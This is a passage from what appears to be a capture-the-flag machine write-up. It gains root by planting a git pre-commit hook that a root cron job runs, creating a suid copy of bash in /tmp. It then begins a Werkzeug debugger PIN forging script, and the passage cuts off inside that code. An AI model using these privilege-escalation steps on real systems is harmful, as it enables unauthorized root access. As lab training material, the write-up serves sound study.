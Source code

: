 It must been a root cron job. We find the script responsible in /usr/local/bin/git-sync

```bash

#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
	echo "No changes"
else
	day=$(date +'%Y-%m-%d')
	echo "Changes detected, pushing.."
	git add .
	git commit -m "Backup for ${day}"
	git push origin main
fi

```

It is backing up our home directory, /home/dev01. We have write access to the .git directory.
With some research on git escalation techniques I found this on [gttfobins](https://gtfobins.github.io/gtfobins/git/#sudo). This allows us to execute a shell script before a commit. We add a script in the .git/hooks/ directory that will be run as root when they use that action!

let's make a suid copy of bash

```shell
#!/bin/bash
cp /bin/bash /tmp/sbash
chmod +s /tmp/sbash
```

make it executable and place it at `.git/hooks/pre-commit`. Now we simply need to wait for the root cronjob and you should get a suid bash in `/tmp`. Run `/tmp/sbash -p` for a root shell.

## Addendum - alternative foothold
I discovered after completing this box that forging the Werkzeug debugger pin to achieve foothold *is in fact possible*. Credit goes to Opcode#8430 from the HackTheBox discord who helped me get this method functional.

From all the articles I looked at the most applicable was [Werkzeug debug pin in docker](https://pythonawesome.com/werkzeug-has-a-debug-console-that-requires-a-pin-by-default/) which also looked at forging the pin from Werkzeug running in docker. 

I took their script and modified the public and private bits that are used in the pin calculation

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'root',# username, changed, our container runs as root
	'flask.app',# modname, same for me
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__')) same for me
	'/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None), python3.10
]

private_bits = [
	# /sys/class/net/eth0/address, see calculation 
	'', 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup SPECIFIC FORMAT SEE CODE
	''
]
```